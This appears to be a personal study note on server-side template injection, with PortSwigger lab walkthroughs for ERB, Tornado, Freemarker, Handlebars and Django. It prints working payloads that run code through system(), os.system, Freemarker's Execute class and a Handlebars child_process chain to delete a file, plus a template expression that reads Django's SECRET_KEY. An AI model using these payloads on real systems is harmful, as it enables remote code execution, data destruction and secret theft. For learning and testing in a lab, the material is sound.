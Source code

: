 # Server Side template injection

[Portswigger](https://portswigger.net/web-security/server-side-template-injection)

## Methodology

Can inject a series of injectable ssti strings to identify the use of ssti

```
${{<%[%'"}}%\
```

Another attempt would be to inject mathematical syntax for ssti and see possible return, look for `49` or `7777777` in ther response form the below:

```
${7*7}
{{7*7}}
{{7*'7'}}
```

Additional injections to test for:

```
${*comment*}
${"z".join("ab")}
```

More payloads and thoughts on ssti:
[hacktricks ssti](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

## Labs Walkthrough

### Basic server-side template injection

Background:
```
To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 
```

- review a products more details, notice a `GET` using a `message` parameter to render "Unfortunately this product is out of stock"
- in the ERB documentation discover the syntax: `<%= someExpression%>` is used to evaluate an expression and render the result on the page
- use ERB template syntax to test a payload containg a mathematical operation `<%= 7*7 %>`
- URL encode the payload and insert it as the value of the message parameter in the URL `https://YOUR-LAB-ID.web-security-academy.net/?message=<%25%3d+7*7+%25>`
- notice the operation executes and you get a `49` on the page, meaning we have ssti
- Further ERB documentation talks about the `system()` command, construct a payload to delete carlos's file:

```
<%= system("rm /home/carlos/morale.txt") %>
```

- URL encode this and send it as the message parameter `https://YOUR-LAB-ID.web-security-academy.net/?message=<%25+system("rm+/home/carlos/morale.txt")+%25>`

### Basic server-side template injection (code context)

Background:
```
To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter
```

- login and post a comment on one of the blog posts
- notice that on the "my account" page, you can select whether you want the site to use your full name, first name, or nickname. A POST request sets the value of the parameter `blog-post-author-display` to either user.name, user.first_name or user.nickname
- in burp send the request `POST /my-account/change-blog-post-author-display` to repeater
- in Tornado the template expressions are surrounded with double curly braces, so in repeater notice that you can escape out of the expression and inject arbitrary template syntax as follows `blog-post-author-display=user.name}}{{7*7}}`
- Reload the page containing your test comment and notice the page containing your test comment now says `PeterWiener49}}`
- Tornado does use syntax for executing Python with `\{\% somePython \%\}`, and pythong supports the `system()` command
- combine this to create syntax to execute the deletion of carlos's file:

```
{% import os %}
{{os.system('rm /home/carlos/morale.txt')
```
- in repeater inject this payload in where you placed the 7*7 earlier, make sure to url encode it `blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')`
- reload the page containing your comment and the lab completes

### Server-side template injection using documentation

Background:
```
identify the template engine and use the documentation to work out how to execute arbitrary code, then delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials:
content-manager:C0nt3ntM4n4g3r
```

- log in and edit one of the product description templates, notice that this template engine uses the syntax `${someExpression}`
- create your own expression or change one of the others to maybe cause an error, save the template. You get an error saying it is the Freemarker template engine
- Freemarker uses the `new()` built-in which can be dangerous
- inject a payload like so: `<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }`

This lab was more about researching and discovering all of these pieces together. albinowax has an exploit for freemarker you can view [here](https://portswigger.net/research/server-side-template-injection)

### Server-side template injection in an unknown language with a documented exploit

Background:
```
identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the morale.txt file from Carlos's home directory. 
```

- notice that when you try to view more details about the first product a `GET` request uses the message parameter to render "Unfortunately this product is out of stock" on the home page. 
- fuzz this `message` parameter with `${{<%[%'"}}%\`, which the error shows it is using `Handlebars`
- search for a handlebars server side template injection payload, there's one by Zombiehelp54 that looks like this, with it already deleting carlos morale.txt:

```
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

- url encode this exploit and add it as the value of the message parameter in the url as so:

```
https://YOUR-LAB-ID.web-security-academy.net/?message=wrtz%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d
```

### Server-side template injection with information disclosure via user-supplied objects

Background:
```
To solve the lab, steal and submit the framework's secret key.

You can log in to your own account using the following credentials:
content-manager:C0nt3ntM4n4g3r
```

- log in and edit one of the product description templates
- change one of the template expressions to something invalid using the fuzz polyglot: `${{<%[%'"}}%\` save and notice the errors hint at a Django framework being used
- Django supports the `debug` tag to help with debugging information
- remove your invalid syntax and enter the following statement `{% debug %}`, save and notice this contains a list of objects and properties we can access from within the template
- study the settigns object in Django documentation and notice that it contains a `SECRET_KEY` propert which has dangerous security implications if known to an attacker
- remove the `{% debug %}` in the template and add this: `{{settings.SECRET_KEY}}`
- submit secret key to finish the lab
